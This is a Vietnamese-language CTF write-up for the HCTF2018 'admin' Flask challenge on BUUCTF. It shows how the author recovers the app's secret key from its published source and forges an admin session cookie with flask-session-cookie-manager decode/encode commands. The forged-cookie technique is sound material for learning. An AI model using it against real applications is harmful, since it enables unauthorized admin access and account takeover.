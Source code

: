 Challenge cho ta 1 trang web có chức năng `login` và `register`.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e93342dc-b315-4ced-a683-2bce3239ef78)

Mình thử reg 1 acc trước rối sau đó login vào.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/c7ce8fb8-342d-4803-b910-910b3c3abe72)

Nó hiện ra 4 trường `index`, `post`, `change password` và `logout`.Mình viewsource `index` và `change password` phát hiện ra.

```
index ---> <!-- you are not admin -->
change password ---> <!-- https://github.com/woadsl1234/hctf_flask/ -->
```
Đầu tiên với index, thì mình nghĩ liên quan đến cookie thì check nhưng nó ko phải JWT

`.eJw9kEFrg0AQhf9K2XMOcdVLIIcWrRiYFcMYmb0EG43u6qbFJGg25L93m0IODwYe7-PNu7P9cWzOHVtdxmuzYHtVs9WdvX2xFSOMZ4lyALtRWUQB2X6WZboEU_gyOnCpi0lqCMCKQSa5l0VbQ3zTAcY30puOsJiJxwHghyLbKTIUCk5-hludYR86xkRl7gmEkEx6kzqfMmwt4E5BCb7EwTHIk2U-QfLZgd52YFsOmkJA8ID_ZXPXBdbssWCH83jcX7775vR6Qdh6IGwDYcgXScqzsuDCprPA2JeJ6N3t6tRKRO9-5iQSCmBaP3HKVG3zIqH3s6vbf-dUGWewYahMxRbsem7G527MW7LHL-iWa5o.ZWQE7w.L4_WPe0tSagYUEl2oqDvM_fthDc`

Sau dó là `change password`.Và lí do là đường link bị vấn đề gì đó, sau khi lục lọi thì mình tìm ra một github có chứa [source code ](https://github.com/mo-xiaoxi/CTF_Web_docker/tree/master/HCTF2018/admin/hctf_flask)

Ở file `config` cho ta secret key, ta chỉ cần dùng nó để decode, encode của cookie là xong,

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/12dcbeee-3a29-4150-aac3-911ca339c123)

Mình tiếp tục tìm xem có gì đặc biệt ko.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/d419cee0-2da3-4d27-ae60-de0d28560591)

Cái này ở file `user.sql`, khá đúng với việc ta cần làm chỉ cần decode cookie thành admin r sumbit vào là có được flag.Và để decode và encode cookie mình dùng tool [ở đây](https://github.com/noraj/flask-session-cookie-manager).

`decode:  python3 flask_session_cookie_manager3.py decode -c '[cookie]' -s '[secret key]`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/b0637b84-6d4b-4d17-a16d-a146e28f9714)

Sau dó thì chỉ cần đổi user là admin rồi encode 

`encode: python3 flask_session_cookie_manager3.py encode -s "[secret key]" -t "[string]"`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/673df9f0-4599-43d4-86d2-b99868c70a2b)

Sau dó thì sumbit lại cookie.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/7932e382-4f04-4517-b548-c7f33f9b7230)








